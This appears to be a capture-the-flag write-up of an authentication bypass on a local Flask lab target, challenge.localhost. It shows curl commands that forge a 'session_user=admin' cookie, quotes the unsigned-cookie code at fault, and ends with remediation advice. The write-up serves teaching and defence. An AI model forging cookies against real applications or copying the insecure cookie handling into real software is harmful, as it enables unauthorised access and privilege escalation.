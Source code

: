 # Authentication Bypass via Unsigned Cookies

## Challenge Description
Web application with login system that improperly validates user sessions through unsigned cookies, allowing authentication bypass.

## Vulnerability Analysis
**Type**: Broken Authentication  
**Root Cause**: Unsigned session cookies with no server-side validation  
**Location**: Cookie handling in `challenge_get()` function

## Exploitation Methods

### Direct Attack (Recommended)
```bash
curl -b "session_user=admin" "http://challenge.localhost/"
```

### Via Guest Login (Alternative)
1. First authenticate as guest:
   ```bash
   curl -X POST -d "username=guest&password=password" http://challenge.localhost/
   ```
2. Then modify the cookie:
   ```bash
   curl -b "session_user=admin" http://challenge.localhost/
   ```

## Technical Explanation

1. **Admin Credentials**:
   - Randomly generated (`os.urandom(8)`)
   - Impossible to guess or brute-force

2. **Cookie Mechanism**:
   ```python
   # Sets insecure cookie
   response.set_cookie('session_user', username)
   
   # Only checks cookie value
   username = flask.request.cookies.get("session_user")
   ```

3. **Security Flaws**:
   - Accepts any cookie value without validation
   - No cryptographic signing
   - No server-side session tracking
   - Superficial admin check (`if username == "admin"`)

## Impact
- Full authentication bypass
- Privilege escalation to admin
- Arbitrary user impersonation

## Remediation
1. **Use Flask's Secure Sessions**:
   ```python
   flask.session['user'] = username  # Automatically signed
   ```

2. **Server-Side Validation**:
   - Verify session against database
   - Implement proper session timeout

3. **Secure Cookie Attributes**:
   - Enable `HttpOnly`, `Secure`, and `SameSite` flags
   - Set proper expiration

## Lesson Learned
Never trust client-controlled values for authentication decisions without proper cryptographic validation and server-side checks.